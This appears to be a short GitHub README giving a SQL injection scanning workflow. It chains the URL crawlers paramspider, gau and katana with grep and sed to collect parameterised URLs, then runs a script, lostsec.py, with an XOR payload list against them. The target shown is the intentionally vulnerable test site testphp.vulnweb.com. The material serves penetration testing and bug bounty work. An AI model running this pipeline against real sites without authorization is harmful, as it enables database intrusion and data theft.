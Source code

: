 ![Screenshot (145)](https://github.com/user-attachments/assets/f24e4bd8-e9dd-4955-ac8a-9af0f55b4448)

BEST SQLI METHODLOGY BY COFFIN:
for single url:

python3 lostsec.py -u "http://testphp.vulnweb.com/artists.php?artist="  -p payloads/xor.txt -t 5

for multiple urls:

paramspider -d testphp.vulnweb.com -o urls.txt

cat output/urls.txt | sed 's/FUZZ//g' >final.txt

python3 lostsec.py -l final.txt -p payloads/xor.txt -t 5

echo testphp.vulnweb.com | gau --mc 200 | urldedupe >urls.txt

cat urls.txt | grep -E "\.php|\.asp|\.aspx|\.cfm|\.jsp" | grep '=' | sort > output.txt

cat output.txt | sed 's/=.*/=/' >final.txt

python3 lostsec.py -l final.txt -p payloads/xor.txt -t 5

echo testphp.vulnweb.com | katana -d 5 -ps -pss waybackarchive,commoncrawl,alienvault -f qurl | urldedupe >output.txt

katana -u http://testphp.vulnweb.com -d 5 | grep '=' | urldedupe | anew output.txt

cat output.txt | sed 's/=.*/=/' >final.txt

python3 lostsec.py -l final.txt -p payloads/xor.txt -t 5
